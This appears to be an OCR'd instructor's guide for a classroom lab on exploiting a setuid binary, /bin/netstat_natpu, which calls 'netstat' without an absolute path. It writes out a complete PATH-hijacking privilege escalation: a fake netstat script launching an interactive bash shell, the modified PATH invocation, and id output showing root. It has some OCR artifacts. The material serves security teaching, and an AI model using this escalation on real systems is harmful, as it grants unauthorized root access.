```
(No info could be read for "-p": geteuid()=1002 but you should be root.)
Active Internet connections (servers and established)
PID/Program name
```
- - - - - -
1. Dig into the executable a little more:
a.Strings dump of netstat_natpu

strings /bin/netstat_natpu | grep -C3 netstat

### T$8L

### T$8L

### L;~(

```
netstat -antpu
Not setuid root.
haswell
xeon_phi
```
In summary, the executable does a setuid(0); — if it is successful, it then executes system("netstat
-antpu"); — otherwise, it prints "Not setuid root."

8. Highlight to students that the command "netstat -antpu" does not have an absolute path. This
    means that it uses the PATH environmental variable to search for the executable. An attacker
    can manipulate the PATH variable and execute any file under her or his control.

```
printf #!/bin/sh\n/bin/bash -i\n' > netstat # create a script called netstat that executes an
interactive shell.`
```
```
chmod +x netstat # make the script executable
```
```
PATH=$(pwd):$PATH /bin/netstat_natpu # get root
```
```
id # did it work?
```
```
uid=0(root) gid=1002(demo2) groups=1002(demo2)
```
### NOTE

```
this modifies the PATH to add the current directory to the front of the path.
when /bin/netstat_natpu tries to execute "netstat", it looks for an executable file
in the current directory first. It finds the bash script and executes that, giving us
an interactive shell with root privileges.
```

